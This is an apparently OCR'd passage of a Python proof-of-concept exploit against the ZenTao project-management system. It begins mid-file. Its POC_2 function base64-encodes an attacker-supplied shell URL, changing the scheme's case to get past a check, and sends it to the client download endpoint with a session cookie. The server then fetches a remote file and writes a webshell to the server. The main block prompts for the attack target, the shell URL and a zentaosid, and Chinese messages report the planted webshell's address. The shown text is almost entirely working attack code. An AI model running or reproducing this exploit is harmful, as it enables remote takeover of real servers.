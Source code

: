 ```python
    }
    try:
        response = requests.get(url=version_url, timeout=20, headers=headers)
        version = json.loads(response.text)['version']
        print("\033[32m[o] 禅道版本为:{}\033[0m".format(version))

    except Exception as e:
        print("\033[31m[x] 获取版本失败 \033[0m", e)


def POC_2(target_url, shell_url, zentaosid):
    options = shell_url.split("://")
    if options[0] == "http":
        shell_url = "HTTP://" + options[1]
    elif options[0] == "ftp":
        shell_url = "ftp://" + options[1]
    else:
        print("\033[31m[x] 请使用正确的请求地址 \033[0m")
        sys.exit(0)

    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":"zentaosid={}".format(zentaosid)
    }

    shell_url_base = str((base64.b64encode(shell_url.encode('utf-8'))),'utf-8')
    vuln_url = target_url + "/www/index.php?m=client&f=download&version=test&link={}".format(shell_url_base)
    print("\033[32m[o] 请求漏洞url：{}\033[0m".format(vuln_url))

    try:
        response = requests.get(url=vuln_url, timeout=20, headers=headers)
        if "保存成功" in response.text:
            print("\033[32m[o] 成功写入Webshell，URL地址为：{}/www/data/client/test/Webshell_name.php\033[0m".format(target_url))
        else:
            print("\033[31m[x] 恶意文件下载失败 \033[0m")
    except:
        print("\033[31m[x] 恶意文件下载失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    shell_url  = str(input("\033[35mShell >>> \033[0m"))
    zentaosid  = str(input("\033[35mZentaosid >>> \033[0m"))
    POC_1(target_url)
    POC_2(target_url, shell_url, zentaosid)
```
